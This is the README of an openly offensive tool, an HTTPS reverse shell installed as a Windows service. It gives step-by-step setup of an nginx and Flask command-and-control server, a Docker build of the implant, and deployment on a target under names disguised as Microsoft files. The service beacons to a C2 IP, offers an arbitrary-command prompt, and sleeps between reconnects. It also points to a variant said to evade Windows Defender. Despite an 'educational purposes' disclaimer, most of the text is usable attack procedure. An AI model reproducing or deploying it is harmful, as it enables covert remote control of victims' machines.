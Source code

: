 # HTTPShell
HTTPS Reverse shell. Installed as a service on Windows. 

Tested on Windows 10 Home/Pro with 01/15/25 update. No longer bypasses Windefend.

The following repo is a simplified version that does bypass Windows 10/11 Pro/Home fully updated: https://github.com/Business1sg00d/RustHTTPSShell

Docker container and building projects done on Ubuntu 20.04.6 Focal LTS for both host and VM.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY! 

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
mv app.py controlServer/
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```
8. Run the nginx server:
```
service nginx start
```
9. Build docker container with dockerfile (dockerfile must be in current directory):
```
docker build .
```
10. Enter the container (find it with "docker ps -a"; should be at the top of the list):
```
docker exec -ti [container_name] /bin/bash
```
11. Exfiltrate the compiled binaries located in project directorys "InstallService" and "ServiceBinary" target/x86_64-pc-windows-gnu/debug/. I'll use
```
python3 -m http.server 80
```
then wget from host. You can create another container with "docker run" and mount folders. The HTTP server with python is my preferred method. Resulting binaries should be:
```
windows_service_wrapper.exe
windows_Win32_Temp.dll
windows_Win32_Temp.exe
```

Creating the service on your target and running:
--------
This is a generic method. Use your own loaders/stagers to get the binaries on the host and run these commands.

1. Create the directory (this can be changed in the source code):
```
mkdir C:\programdata\MicrosoftW
```
2. Move the binaries and DLL into this directory. Make sure "windows_service_wrapper.exe" is renamed to "[service Binary Name]" below in the next step.
3. As Administrator or with privileges allowing creation of services (Server Operators can start/stop service. Can not create them):
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe [C2 IP] [C2 Port; recommend 443] [service Binary Name] [service Binary Name] [desired timeout in seconds]
```
Example:
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe 172.16.0.5 443 myService myService 60
```
"service Binary Name" must be the same. Feel free to edit the source for yourself if you want to change this behavior.

4. Start the service (reboot target or use Administrator/Server Operator):
```
sc.exe start [service Binary Name]

OR with powershell

Start-Service [service Binary Name]
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the service to "sleep". It will sleep in seconds equal to what you put in the command line arguments above. So 60 seconds if using the example. After the time expires, the service will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
